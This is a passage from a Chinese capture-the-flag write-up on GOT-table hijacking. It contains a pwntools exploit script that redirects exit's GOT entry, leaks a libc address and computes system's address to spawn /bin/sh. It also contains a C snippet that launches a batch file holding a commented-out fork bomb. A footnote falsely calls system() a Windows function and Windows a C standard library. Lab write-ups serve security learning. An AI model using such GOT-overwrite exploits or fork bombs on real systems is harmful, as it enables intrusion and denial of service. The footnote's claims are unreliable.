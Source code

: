   ```
​	不过到了这里,我依旧无计可施.于是我们按照这道题的标签去搜索:

> ​		got表劫持 pwn

​	于是我们了解到,got表是内存中的一块区域.它是用来存储库函数的地址的.当程序需要调用外部库函数[^库函数][^system()]时,它就会先访问got表,从got表中取出函数真正的地址.所以,如果我们能把某个函数在got表中的地址信息改成其他函数的地址信息,那么程序在调用这个函数的时候就会变成调用我们修改后的那个函数.

[^库函数]: 例如printf,scanf都是常见的stdio.h下的函数,而stdio又是c标准库之一,因此它们都会被包含在glibc中.类似的,system()是Windows库函数,而Windows也是c标准库.所以我们能在使用了libc库的程序里使用system("/bin/sh")来getshell
[^system()]: 除了在Linux下执行/bin/sh以外,它还能干许多其他的事情.比如创建目录,删除文件,启动某个程序之类的↓.

```c++
#include<stdio.h>
#include<stdlib.h>
void crash(){
	FILE *file;
	file=fopen("00.bat","w");
//	fprintf(file,"%%0|%%0"); //如果你真的想试试,请在虚拟机中进行尝试
	system("start 00.bat"); //这里system用来启动这个名为00的windows批处理脚本.
    system("color 0A"); 	//这里用来把字的颜色调成很符合一般刻板印象的浅绿色
	return;
}
```

​	这样的话,这题的解题方向就明确了起来:我们需要泄露一个函数的地址,用它得到libc的基址,然后把puts的got表改成system的,这样当程序执行`puts(&seats[16 * v0]);`时,就变成了`system(&seats[16 * v0]);`.只要我们输入/bin/sh,也就给了system正确的参数.

代码如下:

```python
from pwn import *
exit_got_add=0x404040
vuln_add=0x4011D6
main_add=0x4012D1
w_add=0x4040A0
puts_got_add=0x404018
read_got_add=0x404030
setbuf_got=0x404020
libc=ELF("./libc-2.31.so")

#context.update(arch='amd64', os='linux', log_level='debug')


def add_cal(add1):
	return (add1-w_add)//16
r=remote("node5.anna.nssctf.cn",24286)
#r=process("./vuln")
#gdb.attach(r)
#pause()
payload1_1=b'%d\n'%add_cal(exit_got_add) #将接下来的输入写到exit的got表地址中

r.sendafter("one.",payload1_1)
payload1_2=p64(vuln_add)					#把vuln变成了		 vuln(){
r.sendafter("name",payload1_2)				#						/*省略一些内容*/
r.recv()									#						vuln();	//这里原本是exit();
											#					}
payload2_1=b'%d\n'%add_cal(puts_got_add)	#这样的无限递归的结构.

r.sendafter("one.",payload2_1)			#由于puts不在16的整数倍位置,覆盖掉0x404010~0x404018,接下来才是puts的地址.
r.sendafter("name",b"aaaaaaaa")
r.recvuntil(b'aaaaaaaa')
base_add = u64(r.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00")) - libc.sym["puts"]
print(hex(base_add+libc.sym["puts"]))
print(hex(base_add))
sys_add=base_add+libc.sym["system"]
```

[^栈迁移]: 知识库里讲的挺详细的(话说那篇文章我在网上也搜到过来着),可以去看看
[^*]: 其实当时的问题在于自动登录莫名其妙的失效了,而且我的上一个快照还是一周前的...在重启了好多次以后我还是没能下定决心恢复到上一个快照